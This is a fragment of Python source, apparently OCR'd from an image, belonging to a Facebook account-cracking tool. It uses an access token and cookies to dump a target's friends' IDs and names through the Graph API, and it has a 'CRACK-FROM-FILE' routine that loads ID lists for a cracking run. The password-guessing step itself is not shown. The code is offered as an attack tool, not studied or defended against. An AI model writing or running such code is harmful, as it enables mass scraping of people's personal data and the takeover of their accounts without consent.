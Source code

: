 			else:
				params = (
				{
				'access_token': token,
				'fields': "friends"
				}	           
			)
			col = ses.get('https://graph.facebook.com/{}'.format(userr),params=params,headers=head,cookies={'cookies':cok}).json()
			for mi in col['friends']['data']:
				try:
					iso = (mi['id']+'|'+mi['name'])
					if iso in id:pass
					else:id.append(iso)
				except:continue
		except (KeyError,IOError):
			pass
		except requests.exceptions.ConnectionError:
			linex()
			animation(' \x1b[38;5;196m[\x1b[37m×\x1b[38;5;196m]\x1b[37m TRY AGAIN ')
			os.system('clear')
	try:
		linex()
		print(f' \x1b[38;5;196m[\x1b[37m•\x1b[38;5;196m]\x1b[37m TOTAL ID : \x1b[38;5;196m'+str(len(id))+'\x1b[37m')
		setting()
	except requests.exceptions.ConnectionError:
		print(f'{u}')
		back()
	except (KeyError,IOError):
		linex()
		animation(" [×] DUMP ID FAILED ")
		time.sleep(3)
		back()

#-------------[ CRACK-FROM-FILE ]------------------#

def fileopt():
 	crack_file()

def crack_file():
	global file_name
	if file_name:
		o = file_name
	else:
	    linex()
	    o  = input(' \x1b[38;5;196m[\x1b[37m•\x1b[38;5;196m]\x1b[37m FILE NAME : ')
	try:lin = open(o).read().splitlines()
	except:
		linex()
		animation(' [×] FILE NOT FOUND')
		time.sleep(2)
		back()
	for xid in lin:
		id.append(xid)
	setting()
